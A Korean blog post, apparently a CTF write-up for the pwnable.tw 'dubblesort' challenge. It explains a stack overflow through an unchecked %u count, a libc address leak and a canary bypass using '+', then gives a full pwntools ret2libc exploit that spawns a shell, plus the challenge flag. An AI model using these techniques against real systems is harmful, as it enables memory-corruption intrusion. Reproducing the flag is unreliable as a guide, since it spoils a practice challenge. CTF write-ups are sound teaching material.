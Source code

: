 ```yaml
---
layout: post
title: "[pwnable.tw] dubblesort 풀이"
date: 2018-06-28 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## dubblesort [200 pts]
### Sort the memory!
### `nc chall.pwnable.tw 10101`
### [dubblesort](https://pwnable.tw/static/chall/dubblesort)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/dubblesort/01.png)
{: refdef}

에?

{: refdef: style="text-align: center;"}
![main_01](/img/pwnable.tw/dubblesort/02.png)
![main_02](/img/pwnable.tw/dubblesort/03.png)
{: refdef}

`max_count`를 입력받는 부분을 보면 `%u`로 받고나서 길이체크 같은게 하나도 없어요.

그래서 이 부분을 사용해 `BOF`를 일으키고 `ROP`를 써서 풀거에요.

- - -
# 0x01. 공격 방법

우선 제가 생각한 방법으로 공격하려면

- `canary` 알아내기

- memory leak

이렇게 2개가 필요해요.

`canary`를 알아내려면 아마 `read`를 사용하는 `name` 부분에서 할텐데 `0x40`으로 딱 맞아서 알아낼 수 없어요.

{: refdef: style="text-align: center;"}
![memory](/img/pwnable.tw/dubblesort/04.png)
{: refdef}

보면 `canary`는 못 알아내지만 `0xf7fb4000`라는 이상한 냄새 풀풀나는 주소는 알아낼 수 있어요.

>gdb-peda$ p system<br />
$1 = {<text variable, no debug info>} 0xf7e19200 <system>

그럼 이제 `canary`가 문젠데

어떻게는 해보려고 막 하다가 알아낸건데 `%u`에서 숫자가 아닌 문자를 넣었을 때 해당 값이 그대로인걸 알아냈어요!

신나서 페이로드 작성해서 돌려보니까 `canary`는 그대론데 그 이후로도 값이 그대로임...

그래서 다른 문자들로 넣어보다가 `+`, `-`는 그 이후의 값이 바뀌는 걸 확인했어요.

마지막으로 디버깅하다가 알아낸건데 값을 다 넣으면 `func_sort`에 의해서 넣은 값들이 정렬돼요.

그래서 저는 `canary`전에는 작은 값들을 넣고 이후엔 `canary`보단 크지만 `system`같은 함수보단 작은 값들을 넣었고 `system`이 끝나고 리턴 주소는 그냥 `system`이랑 똑같이 넣었어요.

- - -
# 0x02. 익스프로잇

로컬 서버로 테스트할 땐 `process`가 안돼서 32bit ubuntu에서 돌렸어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "192.168.0.23"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10101

############################################

s = remote(HOST, PORT)

elf = ELF("./dubblesort")
libc = ELF("./libc_32.so.6")
pause()

############################################

system_off = libc.symbols["system"]
binsh_off = list(libc.search("/bin/sh"))[0]

############################################

s.sendafter("name :", "A"*25)
s.recvuntil("A"*25)
save = u32("\x00" + s.recv(3))

libc_base = save - 0x1b0000
system_addr = libc_base + system_off
binsh_addr = libc_base + binsh_off

print "[*] libc_base : " + hex(libc_base)
print "[*] system_addr : " + hex(system_addr)
print "[*] binsh_addr : " + hex(binsh_addr)

s.sendafter("sort :", "35\n")

for i in range(31):
  if(i < 23):
    s.recv()
    print str(i) + " is " + str(i)
    s.sendline(str(i))

  if(i == 23):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

  if(i == 24):
    s.recv()
    print "canary"
    s.sendline("+")
  
  if(i > 24):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

s.recv()
s.sendline("1") # ebp

s.recv()
s.sendline(str(system_addr)) # ret

s.recv()
s.sendline(str(system_addr)) # ret + 4

s.recv()
s.sendline(str(binsh_addr)) # ret + 8

sleep(2)
s.recv()

s.interactive()
```

### FLAG{Dubo_duBo_dub0_s0rttttttt}